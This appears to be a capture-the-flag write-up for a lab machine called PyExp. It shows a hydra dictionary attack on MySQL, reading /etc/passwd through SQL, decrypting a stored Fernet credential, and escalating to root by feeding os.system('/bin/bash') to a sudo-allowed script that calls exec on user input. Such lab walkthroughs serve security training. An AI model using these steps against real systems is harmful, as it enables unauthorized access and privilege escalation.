 # PyExp

we found the IP `netdiscover`

```
192.168.1.151
```

a port scan shows port 1337 (ssh) and 3306 (mysql 5.5.5)

we were able to get the `root` user's password with a dictionary attack via hydra.

```bash
hydra -L scans/users -P /usr/share/wordlists/rockyou.txt 192.168.1.151 mysql -t4 -vv
```

![[Pasted image 20220702233943.png]]

we were able to read arbitrary files with `mysql`

```mysql
select file_read('/etc/passwd');
```

```
root:x:0:0:root:/root:/bin/bash                                                                                             
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                               
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                          
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                          
sync:x:4:65534:sync:/bin:/bin/sync                                                                                            
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                               
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                               
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                   
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                             
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                           
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                                    
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                          
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                          
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
lucy:x:1000:1000:lucy,,,:/home/lucy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```

we also found some encrypted data in the `data.fernet` table.

using the following python, we were able to decrypt it.

```python3
encrypted = b'gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys='
key = b'UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0='
# Decryption
from cryptography.fernet import Fernet
f = Fernet(key)
decrypted = f.decrypt(encrypted)
print("Decrypted message: ")
print(decrypted.decode('utf-8'))
```

Our decrypted message is 
```
lucy:wJ9`"Lemdv9[FEw-
```

so user `lucy` and password is:

```
wJ9`"Lemdv9[FEw-
```

this user can run `/opt/exp.py` as root with no password.

![[Pasted image 20220703002133.png]]

we checked the source code of `exp.py`

```
uinput = raw_input('how are you?')
exec(uinput)
```

This means we have direct python execution as the root user. We can abuse this in the following way:

run `exp.py` with sudo
```bash
sudo /usr/bin/python2 /opt/exp.py
```

provide this malicious input which spawns a `root` bash session.

```python2.7
import os; os.setuid(0); os.system("/bin/bash")
```

## Root flag

![[Pasted image 20220703002519.png]]